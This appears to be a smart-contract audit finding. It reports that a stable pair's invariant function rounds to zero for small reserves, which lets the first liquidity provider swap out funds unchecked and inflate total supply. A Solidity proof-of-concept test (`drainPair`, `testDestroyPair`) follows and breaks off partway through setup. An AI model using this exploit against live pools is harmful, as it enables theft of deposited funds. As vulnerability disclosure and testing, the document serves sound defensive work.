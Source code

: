 The stable pair curve calculation is susceptible to rounding down to 0 if `_x *_y < 1e18` which will cause the return value of `k` to be `0`.

This allows the first user to transfer amounts of tokenA and tokenB that multiplied are less than 1e18, then mint LP tokens.

After this the user can swap most of the balance that they transfered during the mint, without having to worry about the curve invariant check, as `_k()` will return 0 for both calls:
`require(_k(_balance0, _balance1) >= _k(_reserve0, _reserve1), 'K');`

As long as the user transfers 1 token before the swap call to satisfy the `amountIn` check:
`require(amount0In > 0 || amount1In > 0, 'IIA');`

Below is a coded POC to demonstrate the attack that is possible, by transfering, minting and swapping tokens repeatedly, inflating `totalSupply` close to overflow.

Note: This issue was previously reported during an audit of Velodrome: [Link](https://solodit.xyz/issues/first-liquidity-provider-of-a-stable-pair-can-dos-the-pool-spearbit-none-velodrome-finance-pdf)

## POC
Add the following function and test to `Pair.t.sol`:
```solidity
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1); // transfer 1 DAI to pass `IIA` require check in swap()
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1); // transfer 1 FRAX to pass `IIA` require check in swap()
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount;
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount;
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {
        deployCoins();
        deployPairCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);

        deployPairFactoryAndRouter();
        //
        gaugeFactory = new GaugeFactory();
        bribeFactory = new BribeFactory();
        gaugePlugin = new GaugePlugin(address(DAI), address(FRAX), address(owner2));
        voter = new Voter(address(escrow), address(factory), address(gaugeFactory), address(bribeFactory), address(gaugePlugin));

        escrow.setVoter(address(voter));
        factory.setVoter(address(voter));
        // Set tx.origin to allow governor check to pass when creating pair
        vm.startPrank(0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496, 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496);
```